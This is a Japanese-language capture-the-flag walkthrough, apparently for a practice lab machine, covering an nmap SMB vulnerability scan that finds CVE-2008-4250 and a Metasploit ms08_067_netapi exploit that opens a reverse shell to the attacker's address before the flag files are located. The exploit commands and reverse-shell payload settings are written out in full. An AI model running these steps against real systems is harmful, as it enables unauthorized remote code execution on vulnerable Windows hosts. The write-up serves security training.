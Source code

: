 # 1.Port Scan

対象マシンのポートをスキャン
`ip=10.10.10.4`

![969b3d0408e3679cdd641d4f04f282bc.png](../_resources/969b3d0408e3679cdd641d4f04f282bc.png)

スキャンすると139ポートでファイル共有サービスである「netbios-ssn」が稼働している事を確認
下記コマンドで関連した脆弱性「CVE-2008-4250」を確認
`nmap -p 139,445 --script smb-vuln* $ip`
![e89f5a902061d2d867d051eb5c1521ff.png](../_resources/e89f5a902061d2d867d051eb5c1521ff.png)
CVE-2008-4250を調べた結果Microsoft Windowsのサーバーサービスに存在する深刻なリモートコード実行の脆弱性とのこと
CVE-2008-4250で使用するMetasploitモジュールを調べた結果「ms08\_067\_netapi 」であることを確認

# 2.Exploit

Metasploit Framework を使用
`msfconsole`
![dda8211d9f70db879b6910ee56f5b2ca.png](../_resources/dda8211d9f70db879b6910ee56f5b2ca.png)

下記コマンドを使用してExploitを設定
・使用するエクスプロイトを設定
`use exploit/windows/smb/ms08_067_netapi`
・ターゲットIPを設定
`set rhosts $ip`
・ペイロードを設定
`set PAYLOAD windows/meterpreter/reverse_tcp`
・攻撃者のIPを設定
`set lohos$ip`
・targetIDを設定しシステムを選択
`set target 6`
・エクスプロイトを実行
`exploit`

use exploit/windows/smb/ms08\_067\_netapi
set rhosts 10.10.10.4
set PAYLOAD windows/shell\_reverse\_tcp
set lhost 10.10.14.16
set target 6
exploit
![995710ca38ad78b630d608772edca427.png](../_resources/995710ca38ad78b630d608772edca427.png)

# 3.Flag Get

`Wher root.txt`

![c393c7902856b6b600a69a0f0f47f730.png](../_resources/c393c7902856b6b600a69a0f0f47f730.png)
whereコマンドが使えない為問題文をヒントに捜索
`dir`
`cd Documents and Settings`
`dir`
![ae8ed31c87fa51bf5a64ad75f884d576.png](../_resources/ae8ed31c87fa51bf5a64ad75f884d576.png)
ディレクトリ「Administrator」と「john」を発見。移動した所それぞれ「user.txt」と「root.txt」を確認
`cd john`
`cd Desktop`
`dir`
![9ebce44990399803ff8b84a5d371f034.png](../_resources/9ebce44990399803ff8b84a5d371f034.png)
cd Administrator
cd Desktop
dir
![7758ee9c7885fe605c383351c4153a22.png](../_resources/7758ee9c7885fe605c383351c4153a22.png)
